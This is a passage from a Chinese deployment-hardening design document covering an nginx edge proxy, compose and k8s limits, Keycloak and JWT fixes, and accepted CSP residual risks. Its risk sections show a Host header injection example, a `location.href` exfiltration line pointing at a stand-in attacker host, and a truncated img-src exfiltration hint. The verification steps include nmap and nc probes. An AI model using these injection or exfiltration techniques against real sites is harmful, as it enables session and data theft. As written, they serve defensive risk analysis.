**镜像 tag 的单一真源**：`deploy/images.lock`。k8s Deployment 的 `image:` 必须用 digest 而非 tag，并在 `validate_deploy.py` 断言"每个 Deployment 的 digest ∈ images.lock"。这与 compose 侧的 `validate_images.py` 是同一真源的两处消费。

### 3.4 实施顺序

依赖关系决定顺序（前一步是后一步的验证前提）：

| 步 | 内容 | 依赖 | 验收 |
| --- | --- | --- | --- |
| **S1** | `validate_deploy.py` 加两条断言（内存限制必须存在、除边缘外不得有省略 host IP 的映射）。**先加门禁再改配置**，否则改完没东西守着 | 无 | `python deploy/validate_deploy.py` 此时**应当报红**（红是正确的起点） |
| **S2** | 三套 compose 补资源限制（含 `memswap_limit`）；lite 先行验证（lite 已有 10/11，只补 `migrate` 与 CPU） | S1 | 断言转绿；`docker inspect` 里 `Memory == MemorySwap` |
| **S3** | `edge.conf`/`edge-tls.conf` 落地（含 `/sso/` 占位、`ssl_ciphers`、HSTS 单点化），`nginx -t` 通过；lite 的 `proxy` 切到 `edge.conf` | S2（容器数变化影响资源表）；**`/sso/` 需与 P0-5 同批** | `nginx -t` 绿；`curl -I` 见到安全头；`curl /healthz` 200 |
| **S4** | `docker-compose.yml` 加 `edge`、adapter/web 改 `expose`、`NEXT_PUBLIC_ADAPTER_BASE_URL` 置空 | S3 | 断言转绿；外部只能访问 80/443 |
| **S5** | `docker-compose.saas.yml` 同步 S4 + 全量资源限制 | S4（复用同一份 edge 配置） | 同上 |
| **S6** | `docker-compose.tls.yml` override + 证书目录约定 + 自签验证 | S4 | `curl -k https://...` 200；`curl http://...` 301 |
| **S7** | 适配层 `OA_TRUSTED_PROXY_CIDRS` + `client_ip()`（M-9） | S4（有了边缘才有可信网段） | 单测 + 现场 `X-Forwarded-For` 伪造不生效 |
| **S8** | k8s 三件套 + `validate_deploy.py` 的 k8s 断言 | S2/S4（取值与端口口径已定） | 断言绿 + `kubectl apply --dry-run=server` 通过 |

**关键提醒**：S3 的 `/sso/` location 与 P0-5 的 `/sso/*` 端点必须**同批**上线。先上边缘少 `/sso/` → 会话端点落到 Next → 恒定 404；先上 P0-5 少边缘 location → 同样 404。这与 `e074372` 修的产物下载 S-03 是**完全同一个失效模式**，不要再踩一次。

> **轮次切分（2026-11-02 主理人编排对齐）**：上表 S1-S8 **不回退**，但其中一小部分必须提前到 P0-5 那一轮，否则登录根本测不通——因为 Keycloak 无宿主端口，浏览器要打开登录页就必须先有边缘存在。该子集称 **K4-min**（边缘 HTTP 版 + 六条 location + keycloak 网络 + `KC_HOSTNAME` + OIDC 变量），详见
> `docs/design-2026-11-02-keycloak-realm.md` §4.1.1。
> 轮 1 = K4-min + P0-5 + K5 + K6 + K7（目标：登录通、令牌不进 JS、接口不再 401）；
> 轮 2 = 上表剩余部分（TLS、端口收口、资源限制、k8s）。
> **S1/S2 的资源限制与 S4/S5 的端口收口仍留在轮 2，不因拆轮而失效。**

#### 3.4.1 轮 1（K4-min）→ 轮 2（P0-4）的交接面

轮 2 **不重写**轮 1 的产物，只在其上追加。开工前按下表核对"已建好 / 待追加"，避免有人把已建的东西重做一遍或另起一份。

| 文件 / 对象 | 轮 1（K4-min）交付 | 轮 2 只追加 |
| --- | --- | --- |
| `deploy/nginx/edge.conf` | ✅ **已建（轮 1a）**：HTTP 版，**9 条 location**（`= /healthz`、`= /readyz`、`= /metrics`、`^~ /files/artifacts/`、`^~ /sso/`、`^~ /realms/`、`^~ /resources/`、`/api/`、`/`） | 端口收口后如需按 `expose` 调整上游名，仅改 `set $adapter_backend` / `$web_backend`；**不新增 location** |
| `deploy/nginx/edge-tls.conf` | ⬜ **未建（留轮 2）** | **整份新建**：由 `edge.conf` 派生 + TLS 段 + `ssl_ciphers` |
| `deploy/nginx/lite.conf` / `lite-tls.conf` | 文件**仍在**（未删）；`install.sh:241` 与 `validate_lite_up.sh:140` 的挂载断言已改指 `edge.conf` | 轮 2 创建 `edge-tls.conf` 后可删除 `lite-tls.conf`；`lite.conf` 建议保留为"边缘未落地形态"的参照，但**必须同步维护**，否则两套行为漂移（见 §4.3 风险表） |
| `deploy/nginx/nginx.conf` | 追加 `map $http_x_forwarded_proto $edge_proto` | 无（若轮 1 未加 `map`，轮 2 必须补，否则 `/realms/` 在 TLS 边缘后生成 http 端点） |
| `deploy/docker-compose.tls.yml` | 不建 | **整份新建** |
| `deploy/docker-compose.direct.yml` | 不建 | **整份新建**（逃生开关） |
| 三套 compose 的 `edge` / `proxy` 服务 | **已加 HTTP 版**（挂 `edge.conf`，映射 `${OA_EDGE_HTTP_PORT:-80}:80`） | 追加 `deploy:` 资源限制 + `memswap_limit` + `security_opt`；TLS 形态由 override 文件改挂载与 443 |
| `adapter` / `web` 的 `ports` | **未动**（仍映射宿主端口，轮 1 允许） | 改为 `expose:`（这就是 S4/S5 的核心动作） |
| `keycloak.networks`（full 栈） | **已加 `officeai-frontend`** | 无 |
| `KC_HOSTNAME` / `KC_PROXY_HEADERS` / OIDC 变量 | **已注入** | 无 |
| `apps/web` 构建参数 `NEXT_PUBLIC_ADAPTER_BASE_URL` | **已置空** | 无 |
| `apps/adapter` 的 `OA_TRUSTED_PROXY_CIDRS` + `client_ip()` | 未做（轮 1 不做端口收口，此项无意义） | **S7 整项**（含 `artifact_files.py:65` 改用 `client_ip()`） |
| 资源限制（三套） | 未做 | **S2 整项** |
| k8s manifests | 未做 | **S8 整项**（V1.1 准备，V1.0 不阻塞） |
| HSTS 单点化（删 Next 的 HSTS） | 未做 | **随 S3/S6**：`edge-tls.conf` 下发唯一一份，同时删 `next.config.js:24-27` 并改写其注释 |

**两条交接纪律**：

1. **`edge.conf` 是同一份文件，不是两份**。轮 2 若因 TLS 需要复制出 `edge-tls.conf`，必须让两者共用同一段上游与 location 定义（`include` 片段或软链），否则"只在某一形态复现"的缺陷会长期存在——这条已列为主文档 §4.3 的技术风险。
2. **`/files/artifacts/` 这条 location 在轮 1 建好后不许任何人删**。它是 `e074372` 修的 S-03 的防线，回归代价是"产物下载生产全 404"。

### 3.5 验收判据（可执行）

```bash
# ① 无任何省略 host IP 的端口映射（除边缘）
python - <<'PY'
import yaml
for f in ("deploy/docker-compose.yml","deploy/docker-compose.saas.yml","deploy/docker-compose.lite.yml"):
    d=yaml.safe_load(open(f,encoding="utf-8"))
    for n,s in (d.get("services") or {}).items():
        for p in (s or {}).get("ports") or []:
            host=str(p).split(":")[0]
            if n not in ("edge","proxy") and host.strip() in ("","0.0.0.0"):
                print("BAD", f, n, p)
PY
# 期望：无输出

# ② 宿主实际监听面（起栈后）
ss -ltnp | grep -E ':(80|443|3000|8000)\b'     # 期望只有 80/443（或 443 不存在=HTTP 形态）
# 3000/8000 只能出现在 127.0.0.1（若启用了 direct override）

# ③ 每个常驻服务都有内存限制且 swap 已关
for c in $(docker compose -f deploy/docker-compose.yml ps -q); do
  docker inspect "$c" --format '{{.Name}} mem={{.HostConfig.Memory}} swap={{.HostConfig.MemorySwap}}'
done | awk '{split($2,m,"=");split($3,s,"=");if(m[2]==0)print "NO-LIMIT",$1; if(m[2]!=s[2])print "SWAP-ON",$1}'
# 期望：无输出

# ④ 安全头（TLS 形态）
curl -sI https://<host>/ | grep -Ei 'strict-transport-security|x-content-type-options|x-frame-options|content-security-policy'
# 期望：HSTS 单条（来自边缘），CSP 单条（来自 Next），无重复/无冲突值

# ⑤ TLS 套件确实被限制（TLS 形态）
nmap --script ssl-enum-ciphers -p 443 <host> | grep -E 'TLSv1\.[23]|ciphers'
# 期望：无 CBC、无 RSA-kx、无 3DES/RC4；TLS1.0/1.1 不可用
openssl s_client -connect <host>:443 -tls1_1 </dev/null 2>&1 | grep -qi "no protocols available\|alert" && echo "TLS1.1 已禁 ✓"

# ⑥ HTTP 强制升级（TLS 形态）
curl -sI http://<host>/ | head -3        # 期望 301 且 Location: https://...

# ⑦ 私有化直连逃生开关默认关闭
docker compose -f deploy/docker-compose.yml config | grep -c '8000:8000'   # 期望 0

# ⑧ k8s 生效面（有集群时）
kubectl -n officeai get deploy,svc,netpol
kubectl -n officeai get pod -o jsonpath='{range .items[*]}{.metadata.name}{" runAsNonRoot="}{.spec.securityContext.runAsNonRoot}{"\n"}{end}'
kubectl -n officeai exec deploy/web -- nslookup adapter   # 期望解析成功（证明 DNS egress 放通）
kubectl -n officeai exec deploy/web -- sh -c 'nc -z -w2 postgres 5432; echo exit=$?'   # 期望非 0（NetworkPolicy 生效）
```

---

## 4. 风险与未决项

### 4.1 主理人拍板结果（2026-11-02，已定）

| # | 事项 | **拍板结论** | 落地要求 |
| --- | --- | --- | --- |
| **R1** | CSP `unsafe-inline` 是否本期免除 | **同意本期豁免**。理由成立：Cookie 化后令牌已不在 JS 可达位置，`unsafe-inline` 的危害从"令牌被偷"降级为"页面被改"；而 nonce 化要把静态预渲染路由转动态（+2~3 人日 + 渲染模式变更风险） | **必须写进验收文档的"已知残留"**（见 §4.4），**附完整论证**，不能默认放过——否则下一轮审计会当新问题重报 |
| **R2** | 是否存在已交付客户实例 | **按无客户实例处理**。依据：第三轮审计判定"不具可发布条件"，且 CI 从未跑通（`validate_deps.py` 长期红），不存在已交付客户 | 一次性硬登出即可（§2.4.7），不做迁移端点、不发客户通知 |
| **R3** | `img-src` 的 `https:` 是否收敛 | **本期保留**，记为已知残留。外部头像/预览图属产品未确认事项，收敛会直接打挂 | 写进 §4.4。**注意**：修 Cookie 后这条通道即使被利用也读不到令牌，但其他敏感 DOM 内容仍可被带出 |
| **R6** | V1.0 是否强上 k8s | **不强上**。compose + 边缘先上，k8s manifests 作为 V1.1 准备 | 清单必须**落到仓库**（§3.3.5 已给出）。⚠ `deploy/k8s/README.md:6-9` 里"HPA 2-10 / 2-8、99.5%"的旧口径**必须改掉**，否则下一轮会被当"占位即交付"重报。**本文件不改它**（属仓库文件改动，留给落地任务） |
| **R7** | 证书来源的交付责任边界 | 写进 `docs/deployment-guide.md` | 明确三种情况：客户自备 / 自签仅测试 / 不提供则用 HTTP 边缘并显式告警 |

### 4.2 阻断项（R4 / R5 / R8）—— 详见专题文档

R4 与 R5 的核查已展开为独立文档：**`docs/design-2026-11-02-keycloak-realm.md`**（含逐项实测证据、最终取值表、实施顺序与验收判据）。核查过程中**新发现第三个并列阻断项 R8**，本主文档必须回写，否则 §2.5 的"P0-5 可验收"判断是错的。

| # | 阻断项 | 结论（详见专题文档） |
| --- | --- | --- |
| **R4** | Keycloak issuer 浏览器可达性 | **三套编排全部不可达**：`keycloak` 无任何 `ports` 映射、边缘 location 清单里没有 `/realms/` 与 `/resources/`、`OA_WEB_OIDC_ISSUER` 两个示例均为空且 `install.sh` 从不写它。最小改法：`OA_PUBLIC_BASE_URL` → `KC_HOSTNAME` + `KC_PROXY_HEADERS=xforwarded` + 边缘两条 location + full 栈给 keycloak 加 `officeai-frontend` 网 |
| **R5** | realm 与令牌有效期 | 仓库**确认 0 处 realm 配置**（只有两条注释提到 realm）。最终取值：`accessTokenLifespan=300s`、`ssoSessionIdleTimeout=1800s`、`ssoSessionMaxLifespan=28800s`、`revokeRefreshToken=true`、`refreshTokenMaxReuse=0`；平台会话 Redis 空闲 30 min / 绝对 8 h / 惰性刷新节流 15 min。**refresh 归属：V1.0 必做（服务端惰性刷新）**，不做"拉长 access TTL"的替代方案 |
| **R8** | 令牌校验算法不匹配（新发现） | 适配层用 **HS256 + 共享密钥**验签（`security.py:162-173` + `.env.example:198`），Keycloak 默认签 **RS256**；全仓 `jwks`/`PyJWK`/`RS256` **0 命中**。→ **R4 打通后登录能到回跳页，但每个后续 API 都是 401**。修法：`_decode_token` 按算法分流走 JWKS（`cryptography==50.0.2` 已是直接依赖）；`OA_JWT_SECRET` 仍须保留（产物下载 HMAC 用它，`artifact_token.py:66-87`），因此启动校验无需放宽 |

**R8 必须与 P0-5 同批**，否则 P0-5 验收时表现是"登录成功但所有接口 401"，会被误判为 P0-5 自身缺陷而反复返工。

> **`KC_HOSTNAME` 是安全控制，不只是"为了生成正确端点"**（受主理人 2026-11-02 指出的补充）：
> 实测表明，`KC_HOSTNAME_STRICT=false` 且不设 `KC_HOSTNAME` 时，Keycloak 的 `issuer` **直接取自请求的 `Host` 头**
> （`Host: evil.attacker.com` → `issuer=http://evil.attacker.com/realms/officeai`）。
> 也就是说 **issuer 变成一个攻击者可控的字符串**，构成 Host 头注入面；而 `OA_JWT_ISSUER` 是固定值，
> 两者一旦不一致即表现为"所有令牌 401"，且多入口/多域名现场必然踩。
> 因此 `KC_HOSTNAME` 必须显式设为固定值：它同时消灭 **Host 头注入**与 **多入口 issuer 漂移**两个问题。
> 这一条要写进运维手册的"不可省略配置项"，不能被当作可选优化删掉。


### 4.3 技术风险（已识别，有对策）

| 风险 | 影响 | 对策 |
| --- | --- | --- |
| `api-client.ts` 两处鉴权头注入只改一处 | 上传链路 401，但其他功能正常 → 极难定位 | 删除 `accessToken` 变量本身（而非逐处删注入），让编译器把所有引用点暴露出来 |
| `readOnlyRootFilesystem` 未验证 | 容器启动即崩或链路中途 500 | §3.3.5 的验证方法；未通过则先关掉该项 |
| 边缘加入后容器数变化 | `docs/lite-container-baseline.md` 的"常驻 9 个容器、空载约 1.9 GiB"对外口径失效 | 边缘 +1（约 28.5 MiB，实测口径见 baseline §2.3）。**该基线文档必须同步更新**，它的自述就是"对外口径的唯一数字来源"（baseline §4.1） |
| `memswap_limit` 与 `deploy.resources` 混用被后人"简化"掉 | swap 重新变成 2×，内存压力下抖动而非干净 OOM | 加进 `validate_deploy.py` 断言（§3.5 ③），让"简化"直接报红 |
| 双轨期 Bearer 轨长期不收 | 攻击者若拿到令牌仍可长期使用（无 Cookie 的保护） | §2.4.8 明确 V1.1 收尾，并在 `docs/decisions/` 立一条记录跟踪 |
| `lite.conf` 与 `edge.conf` 双份并存后漂移 | 两套形态行为不一致，问题只在某一形态复现 | 二选一：软链，或 `validate_deploy.py` 断言两文件 `location` 集合完全相同 |

### 4.4 已知残留（验收文档必须原文引用，不得默认放过）

本节是 R1 / R3 拍板的**书面凭据**。下一轮审计若把下列任一项报为"新问题"，请先对照本节——它们是**已评估并有意接受**的残留，不是遗漏。

#### 残留 1：CSP 仍含 `script-src 'unsafe-inline'`（对应审计判据"CSP 不含 `unsafe-inline`"本期不满足）

**现状**：`apps/web/next.config.js:51` 为 `"script-src 'self' 'unsafe-inline'"`，本期不改。

**为什么可以接受（完整论证）**：

1. **P0-5 的威胁是"令牌被窃取"，而该威胁已由 httpOnly Cookie 消除。** 令牌在 httpOnly Cookie 里，`document.cookie` 与任何 JS 都读不到。`unsafe-inline` 只剩"让攻击者能执行任意脚本"这一后果，而**执行脚本 ≠ 拿到凭据**——脚本能做的只是以受害者身份发请求（这与 CSRF 的后果同级，已由 §2.4.5 的三层防护约束），不能再把会话带到站外。
2. **`unsafe-inline` 不是"多加的一条口子"，而是当前架构下 App Router 的必需项。** RSC 载荷以 `self.__next_f.push(...)` 内联注入，去掉它页面首帧白屏且只有一条难以归因的 CSP 违规（`next.config.js:36-40` 已记录）。所以这不是"少配了一个值"，而是"要么改渲染模式，要么保留"。
3. **代价不对称。** 修它需要 nonce 化 → 必须 `export const dynamic = 'force-dynamic'` → 静态预渲染全部失效 → 每请求服务端渲染。这是**性能形态变更**，+2~3 人日，且与"周期紧张"直接冲突；收益只是把"页面被改"的难度提高一档（令牌已拿不到）。
4. **`connect-src` 已同批收敛**（§2.4.9），跨站外传的 `fetch` 通道已关闭。

**残余风险（诚实披露）**：若未来出现 DOM XSS，攻击者可在页面内执行任意脚本、篡改界面内容、以受害者身份发起同源请求（受 CSRF 三层约束）。**但无法带走会话凭据。**

**闭环时点**：V1.1 的 nonce 化（§2.4.10 已核实 Next 16.4.3 的实际机制与唯一真实代价）。

#### 残留 2：CSP `img-src` 仍允许任意 `https:`（对应 `` 外传通道）

**现状**：`apps/web/next.config.js:53` 为 `"img-src 'self' data: https:"`，本期不改。

**为什么可以接受**：外部头像/预览图属产品未确认事项，收敛会直接打挂现有展示。且该通道**读不到令牌**（httpOnly + `Path=/`），只能带出渲染到 DOM 里的非凭据内容。

**残余风险**：DOM XSS 场景下，攻击者可用 `">` 带出页面可见内容。

**闭环条件**：产品确认"是否允许外部图片"。不允许 → 收敛为 `'self' data:` + 白名单域名。

#### 残留 3：CSP 无法阻断顶层导航外传（这是规范限制，不是配置缺陷）

CSP3 已移除 `navigate-to` 指令，因此 `location.href = 'https://attacker/?...'` 无法被 CSP 阻止。**任何**基于 CSP 的方案（包括 V1.1 的 nonce 化）都无法关闭这条通道。这正是 §2.3 判定"路线 B 单独不成立"的根本原因，也是必须走 Cookie 路线的根据。

#### 残留 4：私有化纯 HTTP 现场下 Cookie 可被链路嗅探

**现状**：`OA_PUBLIC_BASE_URL` 为 `http://` 时 Cookie 不带 `Secure`（§2.4.6），与 localStorage 一样可被同网段嗅探。

**为什么仍值得做**：本方案挡的是 **XSS 读取**，XSS 免疫与传输加密无关，在 HTTP 现场同样成立。要彻底解决需上 TLS（§3.3.2 的自建边缘 + 客户证书，属 R7 交付范围）。

#### 残留 5：V1.0 双轨期 Bearer 仍然可用

适配层同时接受 Bearer 与 Cookie（§2.4.8，这是回滚能力的前提）。双轨期内，若令牌通过其他途径泄露，仍可被长期使用。**V1.1 必须收尾**，并在 `docs/decisions/` 立记录跟踪。

### 4.5 本文档未覆盖、但审计已挂账的相邻项

- **P1-01**（租户全量导出 `BytesIO` 常驻内存 + 无并发闸门，`tenant_data_service.py:84,688,705`）：本方案只从**容器侧**设了上限（让爆炸范围止于本容器、不再拖垮宿主），**没有**解决应用层的内存放大与并发闸门。该项需独立设计。
- **P1-09/P1-10/P1-11**：不在本文范围。
- **P0-5 的 nonce 化细节**（§2.4.10）虽已核实机制，但**未做原型验证**；V1.1 落地前须先在一个路由上验证"构建后路由全为动态 + 页面不白屏"。

---

*作者：高见远（架构师）· 2026-11-02 · 供主理人决策、姜实现（工程师）落地消费*
